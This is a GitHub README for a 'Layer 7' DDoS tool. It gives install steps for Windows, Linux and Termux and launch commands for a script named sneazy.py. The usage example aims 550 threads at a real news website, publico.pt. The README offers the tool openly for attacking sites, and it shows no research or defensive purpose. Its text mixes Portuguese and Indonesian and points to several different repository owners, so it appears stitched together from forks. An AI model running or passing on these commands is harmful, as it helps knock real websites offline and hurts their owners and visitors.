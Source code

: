 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

# :computer: Janela Principal
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# ⛔ INSTALLATION


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan
O comando básico para poder executar o overload é o seguinte.  

```
python3 sneazy.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 sneazy.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
